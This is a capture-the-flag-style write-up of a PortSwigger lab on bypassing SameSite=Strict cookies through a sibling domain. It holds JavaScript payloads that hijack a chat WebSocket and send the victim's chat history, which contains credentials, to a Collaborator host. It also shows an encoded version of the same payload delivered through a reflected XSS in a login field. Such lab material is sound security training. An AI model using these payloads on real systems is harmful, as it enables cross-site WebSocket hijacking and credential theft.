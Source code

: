 - Whether you're testing someone else's website or trying to secure your own, it's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Make sure you thoroughly audit all of the available attack surface, including any sibling domains.
- In particular, vulnerabilities that enable you to elicit an arbitrary secondary request, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks.
- In addition to classic CSRF, don't forget that if the target website supports [WebSockets](https://portswigger.net/web-security/websockets), this functionality might be vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) (CSWSH), which is essentially just a [CSRF attack](https://portswigger.net/web-security/csrf) targeting a WebSocket handshake.

## Steps to solve lab
### Title - SameSite Strict bypass via sibling domain

**Desc** - This lab's live chat feature is vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)). To solve the lab, log in to the victim's account. To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text. If you haven't done so already, we recommend completing our topic on [WebSocket vulnerabilities](https://portswigger.net/web-security/websockets) before attempting this lab.



1. Browse to the application function that uses WebSockets and also look for entries appearing in the WebSockets history tab within Burp Proxy.
![[WebSockets2.png]]

2. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
![[authentication27.png]]

3. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no [CSRF](https://portswigger.net/web-security/csrf) tokens.
![[WebSockets16.png]]

4. Right-click on the handshake request and select "Copy URL".

5. In the browser, go to the exploit server and paste the following template into the "Body" section:
```js
<script>
    // Creation of new WebSocket(that WebSocket that is used by lab)
    var ws = new WebSocket('wss://your-websocket-url');

    // Sending the "READY" command as soon as WebSocket connection is open(onopen is a event). After sending the "READY" command the WebSocket will reply with the entire chat history
    ws.onopen = function() {
        ws.send("READY");
    };
  
    // Once we receive messages from the WebSocket then we do a GET request with those messages to our collaborator server
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

6. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator).
7. Click "Deliver exploit to victim".

8. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved carlos chat history but here we got nothing as shown below:
![[csrf61.png]]
We got nothing as you can see above because there is a security feature applied which is "Same Site=Strict". So, we can't do request this but from the labs description we already know that there might be a vulnerable domain.

9. After looking around http request in burp proxy in "HTTP history" tab, we got "Access-Control-Allow-Origin" header which shows something as follows:
![[csrf62.png]]
From this, we get to know that there is another domain(sibling domain) hosted in the same main domain.

![[csrf63.png]]
After analyzing, I found out that "Username" field is vulnerable to "Reflected XSS".

![[csrf64.png]]
We can take advantage of this vulnerable domain to exploit protected sibling domain.

![[csrf65.png]]

Now, change the Request from POST to GET and see if this domain accepts your request.
![[csrf66.png]]
As you can see above, it accepts request. Now, you can send your payload link as a value of the "Username" to victim and from that the "Samesite=Strict" bypass is possible because of "Access-Control-Allow-Origin" header.

10. Url encode the below payload.
**Payload** - 
```js

<script>

    // Creation of new WebSocket(that WebSocket that is used by lab)
    var ws = new WebSocket('wss://your-websocket-url');

    // Sending the "READY" command as soon as WebSocket connection is open(onopen is a event). After sending the "READY" command the WebSocket will reply with the entire chat history
    ws.onopen = function() {
        ws.send("READY")
    };

    // Once we receive messages from the WebSocket then we do a GET request with those messages to our collaborator server
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data})
    };
</script>
```

![[csrf67.png]]

Paste the Url encoded payload as the value of "Username" and also copy paste the below payload in Exploit-server.
```js
<script>
document.location = "https://cms-0a400099041b59df8075950100360059.web-security-academy.net/login?username=%0a%3c%73%63%72%69%70%74%3e%0a%0a%20%20%20%20%2f%2f%20%43%72%65%61%74%69%6f%6e%20%6f%66%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%74%68%61%74%20%57%65%62%53%6f%63%6b%65%74%20%74%68%61%74%20%69%73%20%75%73%65%64%20%62%79%20%6c%61%62%29%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%30%30%30%39%39%30%34%31%62%35%39%64%66%38%30%37%35%39%35%30%31%30%30%33%36%30%30%35%39%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%0a%20%20%20%20%2f%2f%20%53%65%6e%64%69%6e%67%20%74%68%65%20%22%52%45%41%44%59%22%20%63%6f%6d%6d%61%6e%64%20%61%73%20%73%6f%6f%6e%20%61%73%20%57%65%62%53%6f%63%6b%65%74%20%63%6f%6e%6e%65%63%74%69%6f%6e%20%69%73%20%6f%70%65%6e%28%6f%6e%6f%70%65%6e%20%69%73%20%61%20%65%76%65%6e%74%29%2e%20%41%66%74%65%72%20%73%65%6e%64%69%6e%67%20%74%68%65%20%22%52%45%41%44%59%22%20%63%6f%6d%6d%61%6e%64%20%74%68%65%20%57%65%62%53%6f%63%6b%65%74%20%77%69%6c%6c%20%72%65%70%6c%79%20%77%69%74%68%20%74%68%65%20%65%6e%74%69%72%65%20%63%68%61%74%20%68%69%73%74%6f%72%79%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%2f%2f%20%4f%6e%63%65%20%77%65%20%72%65%63%65%69%76%65%20%6d%65%73%73%61%67%65%73%20%66%72%6f%6d%20%74%68%65%20%57%65%62%53%6f%63%6b%65%74%20%74%68%65%6e%20%77%65%20%64%6f%20%61%20%47%45%54%20%72%65%71%75%65%73%74%20%77%69%74%68%20%74%68%6f%73%65%20%6d%65%73%73%61%67%65%73%20%74%6f%20%6f%75%72%20%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%20%73%65%72%76%65%72%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%71%36%78%76%38%76%35%78%6e%65%6f%7a%6c%66%6d%6d%6a%67%67%6e%30%68%31%39%75%30%30%72%6f%6d%63%62%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=%3C%2Fscript%3Ealert%28%27hi%27%29%3C%2Fscript%3E"
</script>
```

![[csrf68.png]]

![[csrf69.png]]

12. Now, login with carlos credentials.
